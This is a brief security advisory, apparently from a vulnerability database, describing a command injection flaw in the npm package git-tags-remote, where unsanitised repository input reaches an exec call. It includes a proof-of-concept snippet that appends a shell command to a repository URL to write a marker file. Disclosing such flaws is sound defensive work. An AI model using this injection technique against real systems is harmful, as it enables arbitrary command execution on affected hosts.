 # Overview

`git-tags-remote` is a Get remote repository tags.

This package is vulnerable to Command Injection. The package fails to sanitize the repository input and passes it directly to an `exec` call on the `get` function . This may allow attackers to execute malicious code in the system if the repository value passed to the function is user controlled.

# Proof of Concept

```
const gitTagsRemote = require('git-tags-remote');
gitTagsRemote.get('https://github.com/sh0ji/git-tags-remote.git; echo "Injection Success" > /tmp/command-injection.test') .then(tags => console.log(tags));
```
